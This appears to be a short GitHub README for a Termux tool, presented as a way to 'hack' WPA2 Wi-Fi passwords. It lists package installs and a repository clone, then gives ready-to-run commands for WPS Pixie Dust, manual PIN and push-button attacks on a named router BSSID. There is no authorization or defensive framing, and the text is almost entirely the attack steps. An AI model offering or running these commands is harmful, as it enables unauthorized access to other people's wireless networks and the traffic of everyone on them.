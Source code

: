 # Wi-Fi WPA2 PassWord HACK ONLY ROUTER

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw openssl

# download only root user

pkg install pip

# installing Tool ComMand

pkg install git

pkg install python3


git clone https://github.com/HeartHaNterAlex/wifi


# only one command run


sudo python wifi/ps.py -i wlan0 -K

# select Host number press inter attack 

# manual pin attack 🧷

sudo python3 wifi/ps.py -i wlan0 -b d9:90:4C:C9:D0:A7 -B -p 1234
# 80% Wi-Fi hack
sudo python3 wifi/ps.py -i wlan0 --pbc
